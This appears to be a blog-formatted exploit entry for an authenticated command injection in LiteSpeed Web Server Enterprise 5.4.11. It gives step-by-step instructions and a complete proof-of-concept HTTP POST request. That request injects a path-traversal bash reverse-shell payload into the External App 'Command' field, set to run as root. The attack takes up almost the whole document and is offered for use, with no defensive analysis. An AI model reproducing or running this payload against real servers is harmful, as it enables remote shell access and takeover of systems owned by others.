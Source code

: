 ```yaml
---
layout: post
title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
date: 2021-02-07 00:00:01 +5:30
categories: [Medium]
tags: [Bug, Exploit] # add tag
---
```


### Date: 05/20/2021
### Exploit Author: cmOs - SunCSR
### [Vendor Homepage](https://www.litespeedtech.com)
### [Software](https://www.litespeedtech.com/products)
### Version: 5.4.11
### Ubuntu/Kali Linux


Step 1: Log in to the dashboard using the Administrator account.
Step 2 : Access Server Configuration > Server > External App > Edit
Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)
Step 4 : Inject payload "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value
Step 5: Graceful Restart

[POC]

```bash
POST /config/confMgr.php HTTP/1.1
Host: 192.168.1.6:7080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101
Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*
;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:
https://192.168.1.6:7080/config/confMgr.php?m=serv&p=ext&t=A_EXT_FCGI&r=file&a=E&tk=0.59220300%201612516386
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Origin: https://192.168.1.6:7080
Connection: close
Cookie: LSWSWEBUI=85fa7ba9b37d18d57e41e092a2a2a61f;
lsws_uid=j%2FsI8GRiKBc%3D; lsws_pass=c7pC2izvdbQ%3D
Upgrade-Insecure-Requests: 1

name=file&address=127.0.0.1%3A5434&note=&maxConns=2000&env=&initTimeout=1&retryTimeout=1&persistConn=1&pcKeepAliveTimeout=20&respBuffer=0&autoStart=1&path=fcgi-bin%2Flsphp5%2F..%2F..%2F..%2F..%2F..%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.6%2F1234+0%3E%261%27&backlog=&instances=&extUser=root&extGroup=root&umask=&runOnStartUp=3&extMaxIdleTime=&priority=&memSoftLimit=&memHardLimit=&procSoftLimit=&procHardLimit=&a=s&m=serv&p=ext&t=A_EXT_FCGI&r=file&tk=0.59220300+1612516386&file_create=
```
